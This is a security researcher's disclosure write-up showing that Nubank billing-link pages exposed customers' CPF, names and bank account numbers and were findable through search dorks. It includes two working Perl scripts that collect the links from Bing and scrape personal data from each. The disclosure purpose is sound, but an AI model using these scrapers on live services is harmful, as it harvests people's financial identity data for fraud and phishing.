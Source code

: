 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

*Disclaimer: The responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed all necessary actions/modifications to minimize any undue action that explores the context covered in this publication.*

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/nubank-scraping/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/nubank-scraping/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to analyse whether this was really possible, I decided to create a *dork* to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/nubank-scraping/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/nubank-scraping/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();

        $dork = url_escape($dork);

        for my $page (0 .. 10) {
            my $url = "http://www.bing.com/search?q=${dork}&first=${page}0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp($_);

            my $userAgent = Mojo::UserAgent -> new();
            my $response  = $userAgent -> get($_) -> result();

            if ($response -> is_success()) {
                my $account = $response -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close($urls_filehandle);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

- [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)

- [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)

- [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)